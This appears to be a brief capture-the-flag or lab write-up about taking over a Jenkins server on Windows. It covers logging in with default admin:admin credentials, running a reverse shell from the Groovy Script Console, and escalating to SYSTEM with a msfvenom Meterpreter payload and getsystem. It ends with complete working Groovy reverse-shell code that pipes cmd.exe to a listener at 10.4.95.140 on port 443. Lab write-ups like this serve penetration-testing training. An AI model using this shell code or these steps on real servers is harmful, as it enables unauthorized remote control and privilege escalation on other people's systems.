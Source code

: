 ![image](https://github.com/user-attachments/assets/7d258d44-c5aa-4bbe-8a91-1799bb24cdd5)
![image](https://github.com/user-attachments/assets/f6c07fdf-38b9-4209-b7b7-1201bb5a8aca)

Try common default cred admin:admin, get in.

Manage Jenkins -> Script Console -> Groovy Reverse Shell -> Run

![image](https://github.com/user-attachments/assets/8a0bc764-55e1-417d-844a-9b6fdd19ad5c)
![image](https://github.com/user-attachments/assets/5b504bbc-a43c-4f34-bdc9-b31de77900a9)
![image](https://github.com/user-attachments/assets/8ea3e0ce-f63e-43a3-8b33-fe1552b25f65)
![image](https://github.com/user-attachments/assets/6d8b8f9f-b8bd-4ae4-b79e-31c5a86890f8)

SharpEfsPotato, PrintSpoofer64.exe, RoguePotato, etc. not work --> cannot PrivEsc to SYSTEM

![image](https://github.com/user-attachments/assets/a59a788d-1db6-4cce-b015-c42a3e56c6ae)


Use Meterpreter payload

![image](https://github.com/user-attachments/assets/e3e91d1b-74da-4bde-b3a0-b1f04dc43266)
![image](https://github.com/user-attachments/assets/568e1fee-a40a-4315-bf7e-c1af7a4f29c9)
![image](https://github.com/user-attachments/assets/baf95daa-8af2-4944-84f2-59c612f817cd)

1. msfvenom meterpreter payload --> upload to machine

2. msfconsole setting to match paylaod and run --> Start reverse ...
 
3. Powershell Start-Process "revshell.exe" --> trigger the payload

4. user has SeImpersonatePrivilege enabled --> getsystem --> PrivEsc to SYSTEM



```bash
String host="10.4.95.140";
int port=443;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host, port);
InputStream pi=p.getInputStream(), pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(), so=s.getOutputStream();
while(!s.isClosed()){
    while(pi.available()>0)
        so.write(pi.read());
    while(pe.available()>0)
        so.write(pe.read());
    while(si.available()>0)
        po.write(si.read());
    so.flush();
    po.flush();
    Thread.sleep(50);
    try {
        p.exitValue();
        break;
    } catch (Exception e){}
};
p.destroy();
s.close();
```bash
